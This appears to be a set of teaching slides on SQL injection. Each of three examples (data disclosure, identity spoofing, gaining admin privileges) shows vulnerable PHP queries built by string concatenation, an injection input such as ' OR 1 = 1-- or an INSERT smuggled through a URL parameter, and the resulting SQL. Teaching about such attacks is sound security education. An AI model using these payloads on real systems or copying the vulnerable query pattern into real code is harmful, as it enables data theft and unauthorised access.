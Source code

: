 
# Disclosure of data

```php
// $username has the name of the logged in user
$dbh->query("SELECT * FROM items 
             WHERE owner = '" . $username . "'");
```

Create an account with username: <span class="inline-code">johndoe' OR 1 = 1--</span>

```sql
SELECT * FROM items WHERE owner = 'johndoe' OR 1 = 1--'
```

---

# Spoof identity

```php
// verifies if username and password are correct
$dbh->query("SELECT * FROM users WHERE " .
      "username = '" . $username . "' " . 
      "AND password ='" . $password . "'");
```

Use these credentials to login: 

<span class="inline-code">username: "johndoe" and password: "' OR 1 = 1; --"</span>

```sql
SELECT * users 
WHERE username = 'johndoe' 
AND password = '' OR 1 = 1; --'
```

---

# Gain privileges

```php
// searches for specific item
$dbh->query("SELECT * FROM items WHERE title = '" . $title . "'");
```

Navigate to URL:

```http
http://foo.com/search.php?title='; INSERT INTO users VALUES
('johndoe', 'password', true); --
```

Third parameter has admin status of user:

```sql
SELECT * FROM items WHERE title = ''; INSERT INTO users VALUES
('johndoe', 'password', true); --'
```

---